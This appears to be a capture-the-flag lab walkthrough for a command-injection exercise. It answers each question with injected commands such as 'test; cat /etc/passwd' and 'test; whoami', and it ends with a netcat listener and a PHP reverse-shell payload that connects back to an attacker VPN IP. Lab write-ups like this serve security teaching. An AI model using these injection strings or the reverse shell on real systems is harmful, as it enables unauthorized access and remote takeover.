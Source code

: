 # Task 5

### What strange text file is in the website root directory? <a href="#what-strange-text-file-is-in-the-website-root-directory" id="what-strange-text-file-is-in-the-website-root-directory"></a>

```
test; ls
```

#### Answer <a href="#answer" id="answer"></a>

drpepper.txt

### How many non-root/non-service/non-daemon users are there? <a href="#how-many-non-rootnon-servicenon-daemon-users-are-there" id="how-many-non-rootnon-servicenon-daemon-users-are-there"></a>

```
test; cat /etc/passwd
```

#### Answer <a href="#answer-1" id="answer-1"></a>

0

### What user is this app running as? <a href="#what-user-is-this-app-running-as" id="what-user-is-this-app-running-as"></a>

```
test; whoami
```

#### Answer <a href="#answer-2" id="answer-2"></a>

www-data

### What is the user's shell set as? <a href="#what-is-the-users-shell-set-as" id="what-is-the-users-shell-set-as"></a>

```
test; cat /etc/passwd |grep www-data
```

#### Answer <a href="#answer-3" id="answer-3"></a>

/usr/sbin/nologin

### What version of Ubuntu is running? <a href="#what-version-of-ubuntu-is-running" id="what-version-of-ubuntu-is-running"></a>

```
test ; cat /etc/os-release

or 

test ; lsb_release -a
```

#### Answer <a href="#answer-4" id="answer-4"></a>

18.04.4

### Print out the MOTD. What favorite beverage is shown? <a href="#print-out-the-motd-what-favorite-beverage-is-shown" id="print-out-the-motd-what-favorite-beverage-is-shown"></a>

```
test ; locate 00-header
test ; cat /etc/update-motd.d/00-header 
```

#### Answer <a href="#answer-5" id="answer-5"></a>

Dr Pepper

## EXTRA <a href="#extra" id="extra"></a>

### Spawn remote shell in that machine <a href="#spawn-remote-shell-in-that-machine" id="spawn-remote-shell-in-that-machine"></a>

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

1. On your machine

* Open a localport on your machine

```
nc -lvnp 9001
```

1. On vulnerable webpage

* Spawn this remote shell in the search input.

Replace `10.18.1.159` with your own VPN IP

```
test; php -r '$sock=fsockopen("10.18.1.159",9001);`sh <&3 >&3 2>&3`;'
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>
